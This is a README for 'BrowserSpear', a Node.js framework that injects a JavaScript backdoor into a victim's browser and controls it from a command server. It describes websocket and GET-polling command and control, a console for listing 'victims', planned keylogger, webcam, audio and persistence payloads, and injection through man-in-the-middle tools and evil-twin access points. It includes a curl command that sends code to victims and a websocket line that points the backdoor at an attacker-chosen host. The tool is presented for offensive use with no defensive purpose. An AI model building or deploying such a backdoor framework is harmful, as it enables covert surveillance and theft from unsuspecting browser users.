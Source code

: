# BrowserSpear
A framework for exploiting browsers by injecting Javascript to a web-based backdoor

# Aim of the project
- After a backdoor is injected in the browser (backdoor.html) the backdoor will try a websocket first and otherwise poll with GET requests. If a GET request succeeds but no websocket is possible (browser incompatible, proxy, filter, ... ) it will communicate in both ways with respectivly GET and reponse-headers.
- When a connection is available to a host it can be send Javascript-code to be executed on the machine
- Clients will be identified from the server with a couple commands and a database will be kept in a plain file
- The interface will be combined with the server (nodejs for async events). If the server is already running, make a connection to the existing server through HTTP requests or a websocket to have the same level of access
- Commands will only be accepted if comming from localhost
- The interface is a metasploit-like commnand-based system to list victims and send commands (custom or prepared payloads)
- Examples of payloads: webcam stream, audio record, keylogger, persistance, ... (check BeEF for inspiration)
- SSL protected connection with loadable cert (Future)

# Dependencies
- Nodejs (install with package-manager)
<pre>apt-get install nodejs</pre>
- Websockets (nodejs-library: https://www.npmjs.com/package/websocket) easiest installed with npm (see below)
- Prompt (nodejs-library: https://www.npmjs.com/package/prompt) easiest installed with npm (see below)
<pre>apt-get install npm && npm install websockets && npm install prompt</pre> 

# Usage
- To start the command server, use the following command:
<pre>node backend_server.js</pre>

- To test, inject the backdoor as a MitM, serve the file yourself or open http://IP-or-URL-server>:1337/ in a browser

- Commands can be send by typing them in the backend_server.js-interface or doing a HTTP-call:
<pre>curl 'http://localhost:1337/exec?alert("muahahahaha")'</pre>

# TODO & Roadmap
- (DONE) For testing, if the servers root is requested, return the backdoor.html file
- backdoor must be built to only provide the URL to connect to if it was not already set. so that the url can be changed by adding an extra script-segment with "var socket = new WebSocket('ws://wereiwanttogo.com:1337')"
- (DONE) interface should take commands to be sent to victims.
- (DONE) a new connection should be fingerprinted 
- ... and merged with the connection object and also logged to a local file with a history of commands.
- Module system with javascript-scripts in files that are parsed into onliners (maybe minified) and then send. Only knowledge is for returning data with socket.send() and developing a way to also have modules for server-side (retrieval of loot) (Idea: support "file"-tag and "stream-tag" and "data"-tag)
- input should be able to be corrected and navigated by the arrow keys without creating escape characters (https://scotch.io/tutorials/build-an-interactive-command-line-application-with-nodejs)
- interface with more layers to list and send commands specific to victim
- GET call to server (from local) to generate payload (newest version) with specified URL to be directed to
- Help command in interface should explain how iframe can be use for the injection of backdoor.html by tool like bettercap (for example)
- look for persistance options in same manner as poisontab, Also try migration to other tabs
- Penetration to system-level attacks

# Known issues
- Flickering of command-line ( will be solved )

# Examples how to inject
TODO
- bettercap, badusb, mitm by spoofing evil twin (link articles)

# Credits
- Samy Kamkar for the inspiration through the Poisontab project and the code that provides the low-level base of the project.
